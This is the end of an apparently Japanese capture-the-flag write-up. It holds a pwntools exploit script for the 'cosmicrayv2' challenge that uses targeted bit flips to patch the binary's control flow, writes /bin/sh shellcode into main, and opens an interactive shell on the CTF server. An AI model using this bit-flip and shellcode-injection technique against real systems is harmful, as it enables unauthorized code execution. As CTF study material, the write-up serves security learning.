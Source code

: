 ```python

    send_address(io, address)
    io.readuntil(b"-----------------\n")
    values = list(map(int, io.readline().decode().split("|")[1:-1]))

    byte = 0
    for i, v in enumerate(reversed(values)):
        byte |= v << i

    flip_val = byte ^ val

    if flip_val == 0:
        flip(io, 0)
        send_address(io, address)
        flip(io, 0)
        return

    flip_target = []
    for i in range(8):
        if flip_val & (1 << i):
            flip_target.append(i)

    flip(io, 7 - flip_target[0])
    for i in flip_target[1:]:
        send_address(io, address)
        flip(io, 7 - i)


def query_bytes(io: tube, address: int, byte: bytes):
    for i, b in enumerate(byte):
        write_byte(io, address + i, b)
        success(f"wrote {hex(b)} to {hex(address + i)}")


def toggle_cosmic_or_main(io: tube):
    jmp_address = binary.symbols["cosmic_ray"] + 499 + 1

    send_address(io, jmp_address)
    flip(io, 4)


def exploit():
    # io = gdb.debug("./patched", exe="./cosmicrayv2_dbg")
    io = remote("vsc.tf", 3047)

    toggle_cosmic_or_main(io)
    # reenter to main

    # write shell code
    query_bytes(io, binary.symbols["main"] + 58, asm(shellcraft.sh()))

    toggle_cosmic_or_main(io)
    # return to main

    success("you got real world")
    io.interactive()
```

# 所感

面白い
